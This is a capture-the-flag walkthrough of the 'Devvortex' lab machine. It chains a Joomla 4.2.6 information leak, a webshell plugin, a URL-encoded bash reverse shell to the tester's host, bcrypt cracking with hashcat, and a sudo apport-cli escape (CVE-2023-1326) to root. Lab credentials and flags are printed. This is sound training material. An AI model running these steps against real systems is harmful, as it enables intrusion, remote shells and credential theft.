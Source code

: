 # Devvortex

## Initial NMAP Scan

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
```

## Gobuster

```
gobuster dir -u http://10.10.11.242/ -w /usr/share/dirb/wordlists/common.txt
```

```
/css
/images
/js
```

## Curl

* Shows redirect to [devvortex.htb](http://devvortex.htb)

## Host File

* Added devvortex.htb to /etc/hosts

## FUFF

* Scan for VHOSTS

```
curl -s -H "Host: nonexistantdomain.devvortex.htb" http://devvortex.htb |wc -c
```

* Outputs size of 154

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" -fs 154
```

* Run scan and filtering out 154 size
* Results show a vhost
  * dev.devvortex.htb
* Added dev.devvortex.htb to /etc/hosts

## Gobuster Again

```
gobuster dir -u dev.devvortex.htb -w /usr/share/dirb/wordlists/big.txt
```

* We find /administrator
* Visiting /administrator in browser we see a login page with "Powered By Joomla"

## Metasploit

```
msfconsole
search exploit joomla
use auxiliary/scanner/http/joomla_version
```

* Results tell us its Joomla version 4.2.6

## Searching for Exploit

```
searchsploit joomla 4.2
```

* Unauthenticated information disclosure `/usr/share/exploitdb/exploits/php/webapps/51334.py`

## Exploit

* Installed a few missing ruby gems.

```
ruby 51334.py http://dev.devvotex.htb
```

```
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

* mysql credentials found&#x20;

## Login

* Successful login to Joomla admin panel using mysql credentials.
* Find a place to upload joomla extentions.

## Joomla Extension

* Quick google search for "joomla code execution extention"
  * [https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)
* After installing the extention we are able to visit [http://dev.devvortex.htb/modules/mod\_webshell/mod\_webshell.php?action=exec\&cmd=id](http://dev.devvortex.htb/modules/mod\_webshell/mod\_webshell.php?action=exec\&cmd=id)

```
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

## Getting Shell

* Trying normal reverse shell syntax we get an error.
* Url encoding the reverse shell works.

```
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.60%2F1234%200%3E%261%27
```

## Mysql

```
mysql -u lewis -p joomla
show tables;
select * from sd4fg_users;
logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

* Password has found for logan

### Hash Cracking

* Hash type identifier [https://hashes.com/en/tools/hash\_identifier](https://hashes.com/en/tools/hash\_identifier)
* `$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 - Possible algorithms: bcrypt $2*$, Blowfish (Unix)` &#x20;

#### Hashcat

```
hashcat -m 3200 -a 0 logan_hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
```

* Password cracked `tequieromucho` &#x20;

## SSH

```
ssh logan@dev.devvortex.htb
```

## User Flag

```
cat user.txt
1fb4026b5ac164cf34495e97e85682ae
```

## Privilege Escalation

```
sudo -l
```

* All users can run `sudo /usr/bin/apport-cli` with no password
* Googling for apport-cli exploits we find
  * [https://github.com/diego-tella/CVE-2023-1326-PoC](https://github.com/diego-tella/CVE-2023-1326-PoC)

### Exploit

* Exploit requires a crash file, and there are no in /var/crash.
* Checking options with `/usr/bin/apport-cli -h` &#x20;
  * We can file a new report using -f

```
sudo /usr/bin/apport-cli -f
```

* We select option 1
* Then option 2
* Then type V to view the report
* Type `!/bin/bash`
  * We get a root shell

## Root Flag

```
cat /root/root.txt
```

```
e3afbbe5970bff2257b741f2d970eaa0
```
